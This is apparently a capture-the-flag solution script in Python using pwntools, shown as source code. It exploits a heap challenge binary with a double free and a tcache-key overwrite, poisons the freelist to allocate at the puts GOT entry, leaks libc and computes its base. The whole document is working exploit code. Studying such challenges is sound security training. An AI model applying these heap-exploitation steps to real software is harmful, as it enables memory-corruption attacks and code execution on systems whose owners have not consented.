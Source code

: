 ```python=
def buy(size, data):
    slna(b'> ',1)
    slna(b'Size: ',size)
    sa(b'Content: ',data)

def w(data):
    slna(b'> ',2)
    sa(b'Content: ',data)

def er():
    slna(b'> ',3)

def read():
    slna(b'> ',4)

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+78
        b*main+192
        b*main+407
        b*main+488

        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()
#Double free
buy(512, b'abc')
er()
w(b'0'*8+p64(0xcafef00d))
er()

#Edit ptr for libc leak
w(p64(exe.sym.ptr))
#Malloc at puts got and have libc
buy(512, b'\0')
buy(512, p64(exe.got.puts) + p64(0x200))
read()

ru(b'Content: ')
leak = u64(r(6)+b'\0\0')
info("Libc leak: "+hex(leak))
libc.address = leak - 0x84420
info("Libc base: "+hex(libc.address))

#Double free again
buy(512, b'abc')
er()
w(b'0'*8+ p64(0xcafef00d))
er()
```